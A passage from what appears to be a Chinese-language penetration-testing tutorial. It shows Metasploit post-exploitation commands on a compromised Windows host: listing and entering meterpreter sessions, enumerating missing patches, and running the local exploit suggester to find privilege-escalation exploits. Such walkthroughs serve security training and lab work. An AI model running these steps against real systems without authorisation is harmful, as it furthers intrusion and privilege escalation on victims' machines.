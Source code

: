 ![Alt text](image-18.png)    
使用`sessions`查看会话。   
```shell
 sessions
```
![Alt text](image-19.png)   
## 9. 查看系统补丁信息
进入 `meterpreter`。   
```shell
 sessions -i 1
```
![Alt text](image-20.png)
```shell
 run post/windows/gather/enum_patches
```
![Alt text](image-21.png)   
需要kali进行信息收集之后，下一步查询哪些提权的exp可用。   
```shell
 run post/multi/recon/local_exploit_suggester
```   